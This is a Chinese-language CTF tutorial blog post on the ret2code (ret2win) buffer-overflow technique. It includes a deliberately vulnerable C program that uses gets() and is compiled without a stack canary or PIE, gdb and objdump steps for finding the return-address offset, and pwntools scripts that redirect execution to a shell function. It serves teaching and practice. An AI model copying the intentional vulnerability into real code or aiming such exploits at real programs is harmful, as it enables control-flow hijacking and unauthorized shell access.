 ```yaml
---
title: "Day7－ret2code (ret2func)"
date: 2024-09-07
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

經過了前一天的 lab，相信大家對於 buffer overflow 的原理已經有了更多的理解。既然我們能覆蓋判斷式中的值，那麼是否也能覆蓋 return address，讓程式跳到其他位置呢？這正是我們今天要介紹的攻擊技術：ret2code，又稱為 ret2func 或 ret2win。

## 介紹

回顧之前的 stack 內容，當使用 `gets` 讀取 `buf` 字串時，可以持續覆蓋記憶體，甚至可能覆蓋到 `rbp` 和 `return address`

![image](https://hackmd.io/_uploads/HJ0565Y20.png)

例如，如果我們想跳到名為 `shell` 或 `win` 的函數，可以嘗試將 stack 覆蓋成如圖所示的狀態。當程式執行到 return address 時，它就會跳轉到我們覆蓋的位置。

![image](https://hackmd.io/_uploads/r19GRqKh0.png)

雖然在現實情況下，程式中不太可能直接有開啟 shell 的 function，但在一些初學者的 CTF 題目中，這類控制程式執行流程（control flow）的題目仍然存在。在進入實作之前，我們要了解這種攻擊的前提條件是：需要關閉 PIE 保護，因為我們必須知道確切要跳轉的 function 位置。

## Lab

查看以下程式原始碼：

```c=
#include<stdio.h>

void shell(){
    system("/bin/sh");
}

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char b[10];
    puts("Send me a message: ");
    gets(b);
    return 0;
}
```

使用以下指令進行編譯：

```sh=
gcc src/ret2code.c -o ./ret2code/share/ret2code -fno-stack-protector -no-pie
```

大家可以自行練習這道題目，或是繼續閱讀以下解題步驟。

## writeup

首先，我們注意到程式中存在一個 `shell()` 函數，這個函數會直接開啟一個 shell。另外，程式關閉了 Canary 和 PIE 保護，並使用了危險的 `gets` 函數來讀取輸入，因此我們可以嘗試使用 ret2code 技術跳轉到某個位置。在實作 ret2code 之前，我們需要解決以下兩個問題：

- 找出覆蓋到 return address 前所需的字元數。
- 確定 `shell()` function 的地址。

首先，找到覆蓋到 return address 前所需的字元數。我們可以使用 `objdump` 來 disassemble 程式，觀察指令 `lea rax,[rbp-0xa]`，這表示輸入的起始位置是 `[rbp-0xa]`。與前面不同的是，return address 前還有 8 個 bytes 的 `rbp`，所以需要填充的字元數是 `0xa + 0x8 = 0x12`，即 18 個字元。

![image](https://hackmd.io/_uploads/SkxM-iKnA.png)

另一種方法是使用 `gdb` 來驗證。我們先使用 `gdb ./ret2code` 啟動程式，然後在 `main` function 處設置中斷點，接著 `r` 執行程式，並 `ni` 逐步執行至輸入位置。此時，我們可以輸入有規律的字元，觀察覆蓋情況。例如輸入 `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ`

![image](https://hackmd.io/_uploads/Sk9KGjth0.png)

繼續執行至 return address 處，可以看到 return address 已被覆蓋為 `0x4747464646464545`，即 `EEFFFFGG`。因此，可以確定需要填充的字元數是 `AAAABBBBCCCCDDDDEE`，共 18 個字元。

![image](https://hackmd.io/_uploads/HJBQBjth0.png)

`shell()` 的 address 可以使用 `objdump` 或 `gdb` 來查找。使用 `objdump`，我們可以看到地址為 `0x401156`。

![image](https://hackmd.io/_uploads/B1ZRSjY2C.png)

使用 `gdb` 的 `info func` 命令，也可以看到 `shell()` function 位於 `0x401156`。

![image](https://hackmd.io/_uploads/S1OGUjK2R.png)

現在我們可以開始編寫 exploit。我們將測試 local 端程式，輸入 `0xa + 8` 個字元，並在後面加上要修改的 return address：

```py=
from pwn import *

r = process('../ret2code/share/ret2code')
# r = remote('127.0.0.1', 10001)

payload = b'A' * (0xa + 8) + p64(0x401156)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

不過執行後會發生 SIGSEGV，此時可以使用 `gdb` 來追蹤問題。

![image](https://hackmd.io/_uploads/rk928jKnC.png)

將 exploit 加上 `gdb.attach()` 並使用 `tmux` 開啟另一個視窗。`gdb.attach()` 可以指定啟動時要執行的 gdb 指令，例如設置中斷點。

```py=
from pwn import *

r = process('../ret2code/share/ret2code')
# r = remote('127.0.0.1', 10001)

gdb.attach(r,'b main')
context.terminal = ['tmux', 'splitw', '-h']

payload = b'A' * (0xa + 8) + p64(0x401156)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

在 `tmux` 中執行 exploit，並讓執行位置回到 `main` function。

![image](https://hackmd.io/_uploads/SJ3aOiYh0.png)

此時發現程式確實跳到 `shell()`，但遇到問題：`movaps xmmword ptr [rsp + 0x50], xmm0`，提示 `not aligned to 16 bytes`。這個問題可以參考這篇[文章](https://hack543.com/16-bytes-stack-alignment-movaps-issue/)，簡單來說，某些 libc 版本要求 `rsp` 的值必須是 16 的倍數。我們可以嘗試跳轉到前一點的位置。

![image](https://hackmd.io/_uploads/HkvZKsFnC.png)

例如，跳轉到 `0x401157` 或其他位置進行測試。

![image](https://hackmd.io/_uploads/H1tY9jFhA.png)

將 exploit 改為跳轉到 `0x401157`，並移除剛剛的 `gdb` 部分。

```py=
from pwn import *

r = process('../ret2code/share/ret2code')
# r = remote('127.0.0.1', 10001)

payload = b'A' * (0xa + 8) + p64(0x401157)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

成功取得 shell！

![image](https://hackmd.io/_uploads/rJXZojF3C.png)

接下來將題目架設起來，並連接到遠端。

完整 exploit：

```py=
from pwn import *

# r = process('../ret2code/share/ret2code')
r = remote('127.0.0.1', 10001)

payload = b'A' * (0xa + 8) + p64(0x401157)

r.sendlineafter('Send me a message: ', payload)
r.interactive()
```

solved！！

![image](https://hackmd.io/_uploads/HkjNoiFnR.png)
